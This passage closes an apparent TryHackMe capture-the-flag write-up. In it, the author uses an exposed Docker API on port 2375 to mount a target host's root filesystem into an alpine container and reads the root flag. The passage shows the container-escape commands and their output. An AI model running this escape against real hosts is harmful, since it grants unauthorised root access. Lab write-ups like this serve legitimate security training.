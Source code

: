 **The `alpine` image looks interesting!**

**Let's fire up the `alpine` container and mount the `/` directory on the container to our `/mnt/share` on our attacker machine!**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# mkdir /mnt/share

┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 run --rm -it -v /:/mnt/share alpine:3.9
```

```
/ # ls -lah /mnt/share/root/
total 24
drwx------    3 root     root        4.0K Jan  6  2021 .
drwxr-xr-x   22 root     root        4.0K Jan  9  2021 ..
lrwxrwxrwx    1 root     root           9 Jan  6  2021 .bash_history -> /dev/null
-rw-r-----    1 root     root        3.0K Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root        4.0K Jan  6  2021 .local
-rw-r-----    1 root     root         148 Aug 17  2015 .profile
-rw-------    1 root     root          74 Jan  6  2021 flag.txt
```

Found the flag!

## Rooted

**root.txt:**
```
/ # cat /mnt/share/root/flag.txt 
Congrats, you found the real flag!

THM{Redacted}
```

# Conclusion

What we've learned:

1. Web Crawler (`robots.txt`)
2. Site-Wide Metadata (`/.well-known/`)
3. Command Injection
4. SSRF (Server-Side Request Forgery)
5. Git Repository Enumeration
6. Port Knocking
7. Enumerating Exposed Docker Port
8. Docker Container Escape